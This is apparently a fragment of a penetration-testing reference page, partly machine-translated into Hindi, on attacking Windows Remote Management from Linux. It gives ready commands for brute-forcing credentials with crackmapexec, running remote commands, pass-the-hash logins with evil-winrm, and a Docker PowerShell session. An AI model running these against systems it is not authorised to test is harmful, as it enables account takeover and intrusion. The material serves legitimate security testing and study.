 **Latest Announcements**\
नवीनतम बग बाउंटी लॉन्च और महत्वपूर्ण प्लेटफ़ॉर्म अपडेट के साथ सूचित रहें

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

## WinRM connection in linux

### Brute Force

सावधान रहें, winrm का ब्रूट-फोर्सिंग उपयोगकर्ताओं को ब्लॉक कर सकता है।
```ruby
#Brute force
crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt

#Just check a pair of credentials
# Username + Password + CMD command execution
crackmapexec winrm <IP> -d <Domain Name> -u <username> -p <password> -x "whoami"
# Username + Hash + PS command execution
crackmapexec winrm <IP> -d <Domain Name> -u <username> -H <HASH> -X '$PSVersionTable'
#Crackmapexec won't give you an interactive shell, but it will check if the creds are valid to access winrm
```
### evil-winrm का उपयोग करना
```ruby
gem install evil-winrm
```
Read **documentation** on its github: [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)
```ruby
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>
```
ईविल-वीएनआरएम का उपयोग करके **IPv6 पते** से कनेक्ट करने के लिए _**/etc/hosts**_ के अंदर एक प्रविष्टि बनाएं, जिसमें IPv6 पते के लिए एक **डोमेन नाम** सेट करें और उस डोमेन से कनेक्ट करें।

### हैश को ईविल-वीएनआरएम के साथ पास करें
```ruby
evil-winrm -u <username> -H <Hash> -i <IP>
```
![](<../.gitbook/assets/image (680).png>)

### PS-डॉकर मशीन का उपयोग करना
```
docker run -it quickbreach/powershell-ntlm
$creds = Get-Credential
Enter-PSSession -ComputerName 10.10.10.149 -Authentication Negotiate -Credential $creds
```
### एक रूबी स्क्रिप्ट का उपयोग करना
